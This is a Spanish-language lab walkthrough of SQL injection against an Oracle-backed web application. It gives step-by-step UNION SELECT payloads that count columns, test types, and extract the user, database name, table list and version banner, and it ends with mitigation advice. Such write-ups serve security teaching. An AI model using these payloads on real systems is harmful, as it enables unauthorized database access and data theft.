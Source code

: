 Objetivo del laboratorio:

 - Es identificar el sistema de gestión de bases de datos (DBMS) utilizando por la aplicación y determinar su versión mediante una inyección SQL 

Explicación Técnica 

>  En este caso se plantea una vulnerabilidad en la aplicación web que permite a un atacante modificar consultas SQL legitimas. Al explotar esta debilidad, es posible extraer información sobre la tecnología utilizada en el backend. Igualmente se identifica el sistema de datos relacional subyacente utilizado por el sitio web.

> Las bases de datos Oracle tienen estructuras y métodos específicos para almacenar detalles sobre su versión. Al manipular las consultas de la aplicación, un atacante puede hacer que el sistema devuelva datos internos que normalmente no deberían ser accesibles. 

Primero vamos a capturar el código de la pagina y lo enviaremos al Repeater

![image](https://github.com/user-attachments/assets/418b6ff3-f6af-44e1-8abd-efd556a85009)

ahora en Repeater vamos a empezar a modificar las solicitudes con "ORDER", Primero vamos a probar con este: 

     '+order+by+1--

*Explicación del código*: Este código es una prueba de inyección que usa la clausula "ORDER BY" para determinar el numero de columnas en una consulta. 

-  ORDER BY 1: Intenta ordenar los resultados por la primera columna
- -- : Comenta el resto de la consulta para evitar errores.  

que debería; si es que la vulnerabilidad esta, darnos una respuesta "200 OK"

![image](https://github.com/user-attachments/assets/18f9227e-3c1a-4cfb-a877-b52171d0c4a0)

modificamos el GET y veremos que nos da la respuesta esperada. y como vemos que esta consulta funciona es que al menos una columna existe. o sea que podemos probar con aumentar el numero por ejemplo:

     '+order+by+2--

o con

     '+order+by+3--

![image](https://github.com/user-attachments/assets/31ed70f4-7f9f-4b66-87bd-657c5f36598d)

y por ultimo probamos con el "3"

![image](https://github.com/user-attachments/assets/8640cb4b-4cc8-4039-88d5-c05bfd987f1b)

pero con el numero 3 nos da "server error" o sea que solo hay "2" columnas. lo que ahora vamos a probar con otra consulta. 

     '+UNION+SELECT+NULL,NULL+FROM+dual-- 

*Explicación del código*: 

- UNION SELECT: intenta unir otra consulta a la existente
- NULL, NULL: se usa para igualar el numero de columnas de la consulta original
- FROM dual: en oracle, dual es una tabla especial utilizada para obtener resultados sin acceder a datos reales. 

![image](https://github.com/user-attachments/assets/67e00c5b-c5aa-4387-93f7-c88517535922)

y como vemos tenemos la respuesta de "200 OK" mas el código, asi que vamos a validar el tipo de dato por cada campo

![image](https://github.com/user-attachments/assets/fd8fbc95-f963-4fcd-b4ad-3c5526801c51)

Como vemos muestra el resultado o sea que si probamos con cadenas de texto para comprobar si los campos aceptan valores tipos STRING, el codigo quedaria 

     '+UNION+SELECT+'Spartan','Prueba de vulnerabilidad'+FROM+dual--

La relación con la validación de tipos de datos: 

> Al ejecutar esta inyección, si la consulta no genera errores que no fue el caso, significa que los campos aceptan valores de tipo "texto", si da un error, se debe probar con los otros tipos de datos como numérico o fechas. hasta encontrar la combinación correcta. Esto ayuda a preparar ataques mas avanzados, como por ejemplos extracción de datos sensibles. 

ahora como sabemos que tenemos resultado en eso, vamos a probar con algun usuario que pueda ver. 

     '+UNION+SELECT+user,'prueba 2 de vul'+FROM+dual-- HTTP/2

![image](https://github.com/user-attachments/assets/b3784b61-803c-4c3c-8a6a-87f39ed608d7)

y como vemos tenemos resultado, nos da el usuario "Peter" que es el usuario predeterminado del laboratorio. ahora vamos a probar un payload para obtener nombres de la base de datos. 

     '+UNION+SELECT+sys.database_name,'prueba 3 vuln'+FROM+dual-- 

![image](https://github.com/user-attachments/assets/a07c23d1-7536-429e-8efb-aa80d98533a6)

y obtenemos resultado con el "XE", también podemos probar con obtener las tablas

     '+UNION+SELECT+table_name,+NULL+FROM+all_tables-- 

![[vulnerabilidades/web academy/SQL injection Oracle/test9.png]]

tenemos las tablas de la base de datos, ahora vamos a probar con consultar la versión de BD

> *Extraer la versión del motor de base de datos*: ahora que sabemos que cantidad y tipo de columnas aceptadas en la consulta, es posible usar funciones especificas del DBMS para obtener su versión. Esto en un ataque ayuda a identificar vulnerabilidades conocidas en esa versión que hay y planificar ataques mas avanzados.  

![[vulnerabilidades/web academy/SQL injection Oracle/test10.png]]

entonces probamos el comando: 

     '+UNION+SELECT+BANNER,+NULL+FROM+v$version--

y vemos que nos entrega la versión por la cual podemos ver explotaciones. 

> Mitigación: 

La mitigación de la inyección SQL  se logra usando consultas preparadas, que separan los datos del código SQL y validando entradas para asegurarse de que solo se acepten datos esperandos. los  los *ORMs* generan consultas seguras sin concatenar datos manualmente, mientras que el principio de menor privilegio limita los permisos de los usuarios en la base de datos. Deshabilitando mensajes de error detallados, impide que los atacantes obtengan información sobre la estructura de la base de datos. 

> ORMs --> son herramientas que permiten interactuar con base de datos utilizando objetos en lugar de escribir consultas SQL manualmente. Con ORMs los desarrolladores pueden trabajar con datos de la base de datos como si fuera objetos en el código. lo que abstrae la complejidad de las consultas SQL. o sea que esto evita problemas como la inyección SQL, ya que las consultas se generan automáticamente y los datos se manejan de manera segura. 
